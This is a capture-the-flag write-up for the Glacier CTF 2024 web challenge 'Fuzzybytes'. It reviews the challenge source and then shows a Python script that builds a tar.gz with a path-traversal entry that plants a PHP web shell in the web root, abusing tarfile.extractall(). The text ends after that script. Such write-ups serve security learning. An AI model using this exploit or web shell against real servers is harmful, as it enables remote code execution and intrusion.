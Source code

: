 ---------------

### CTF: GLACIER CTF 2024

---------------

![image](https://github.com/user-attachments/assets/cdce91a2-501c-40ed-8017-013608a71987)

---------------

### Challenges

- Web
  - Fuzzybytes

---------------

### Web: Fuzzybytes

![image](https://github.com/user-attachments/assets/bc6606d4-73d5-4934-b393-5305bc210a93)

---------------

### CODE REVIEW

-----------------

- The main sink can be traced with the aid of files `Dockerfile`, `upload.php` and `check_for_malicious_code.py` in the source code archive.
- Dockerfile-:

```docker
# Debian 12
# PHP 8.7.3
# Apache 2.4.59
FROM docker.io/library/php@sha256:b3ff205fcc739fc504750dab29d4c30afb2702730d37a1068a16c14f30a7d48f

RUN apt-get update && apt-get install -y python3 && apt-get clean

# Copy challenge required files
COPY ./config/php.ini $PHP_INI_DIR/php.ini
COPY ./web /var/www/html
COPY ./check_for_malicious_code.py /usr/
COPY ./flag.txt /root/flag.txt

RUN chown www-data:www-data /var/www/html/databases
RUN chmod +s /bin/tar
```

- The docker script copies the content of `web` to `/var/www/html` and copies the python script `check_for_malicious_code.py` to directory `/usr`.

```docker
COPY ./config/php.ini $PHP_INI_DIR/php.ini
COPY ./web /var/www/html
COPY ./check_for_malicious_code.py /usr/
```
- The major ones to note are outlined below,the flag file is copied to `/root/flag.txt` which means we need root privilege to read it.Secondly, ownership of directory `/var/www/html/databases` is granted to user `www-data` and lastly, suid permissions is granted to binary `tar`.

```docker
COPY ./flag.txt /root/flag.txt

RUN chown www-data:www-data /var/www/html/databases
RUN chmod +s /bin/tar
```
- Upload.php-:

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $uploadDir = "/tmp/";
    $targetFile = $uploadDir . basename($_FILES["file"]["name"]);
    $fileExtension = pathinfo($_FILES["file"]["name"], PATHINFO_EXTENSION);
    $allowedExtensions = array('gz');

    echo '<div id="log"></div>';

    if (!in_array($fileExtension, $allowedExtensions)) {
        echo "Sorry, only .tar.gz files are allowed.";
        exit();
    }

    ob_start();

    
    function addLog($message) {
        echo "<script>document.getElementById('log').innerHTML += '$message<br>';</script>";
        ob_flush();
        flush();
    }

    addLog("Unpacking file...");
    
    if (move_uploaded_file($_FILES["file"]["tmp_name"], $targetFile)) {
        addLog("The file " . htmlspecialchars(basename($_FILES["file"]["name"])) . " has been uploaded.");

        if ($fileExtension === 'gz') {
            addLog("Scanning file...");

            // Execute python malware checker
            exec("python3 /usr/check_for_malicious_code.py " . escapeshellarg($targetFile), $output, $returnCode);

            if ($returnCode === 0) {
                addLog("Python script executed successfully.");
            } else {
                addLog("Error executing Python script.");
            }

            unlink($targetFile);
            addLog("Cleaning up...");

            addLog("Done.");

        }
    } else {
        addLog("Sorry, there was an error uploading your file.");
    }

    ob_end_flush();
}
?>



<link rel="stylesheet" type="text/css" href="styles.css">
<a href="index.php" class="back-button">Back to Homepage</a>
```

- The php file takes in a files via the `file` parameter, checks if the file ends with `gz` and only takes in `gzip` archives to prevent upload of php shells.It writes the file to `/tmp` directory.Lastly,it executes the python script that will be explain below and passes the uploaded gzip file as an argument to function `exec()`.We cannot pass in malicious systemcommand because of `escapeshellarg()`.

```php
exec("python3 /usr/check_for_malicious_code.py " . escapeshellarg($targetFile), $output, $returnCode);
```
- The main sink is in the python script which is `tarfile.extractall()`.The function `tarfile.extractall()` is vulnerable to path traversal in the sense that if an archived files is saved as `../../shell.php`,instead of saving it in the current directory.It parses the relative path and moves up 2 directories to save the file.In this scenario,the code extracts our gz file to `/tmp/<dirname>/`,we need to move up two directories to save our php shell in `/var/www/html/databases` since we have write access to it.

```python3
try:
    with tarfile.open(tar_file_path, 'r:gz') as tar:
        if not os.path.exists("/tmp/files_for_checking"):
            os.mkdir("/tmp/files_for_checking")
        tar.extractall("/tmp/files_for_checking")
    print("Successfully extracted the contents of the .tar file.")
```

### Exploitation

- I wrote a python script to create the tarfile.

```python3
#! /usr/bin/env python3
import tarfile
import io

tar = tarfile.TarFile.open('malicious.tar.gz', 'w:gz')

info = tarfile.TarInfo("../../var/www/html/databases/shell.php")
info.mode=0o444 # So it cannot be overwritten
php_shell = b"<?php echo system($_GET['cmd']); ?>"
info.size=len(php_shell)
tar.addfile(info,io.BytesIO(php_shell))
tar.close()
```

-
